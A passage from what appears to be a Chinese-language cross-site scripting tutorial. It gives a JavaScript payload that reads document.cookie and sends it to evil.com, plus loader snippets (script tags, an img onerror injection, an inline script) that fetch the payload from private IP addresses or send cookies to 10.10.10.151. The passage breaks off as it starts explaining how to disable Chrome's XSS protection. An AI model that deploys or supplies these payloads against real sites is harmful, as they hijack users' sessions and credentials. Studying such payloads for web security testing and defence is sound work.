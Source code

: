  xss.js

```php
var img=document.createElement("img");
img.src="http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```

## 6、加载payload

```php
<script src="http://192.168.31.125/xss.js"></script>

<script src="//192.168.31.125/xss.js "></script>

<img onerror=document.body.appendChild(document.createElement('script')).src='//192.168.31.125/xss.js'>

<script>var img=document.createElement("img");img.src="http://10.10.10.151:1234/a?"+escape(document.cookie);</script> 
```

![image-20210411231553418](../acess/image-20210411231553418.png) 

## 7、关闭浏览器XSS机制

chrome的关闭方法：

我的chrome安装目录在C:\Program Files (x86)\Google\Chrome\Application\chrome.exe，关闭方法是在命令行输入以下命令：
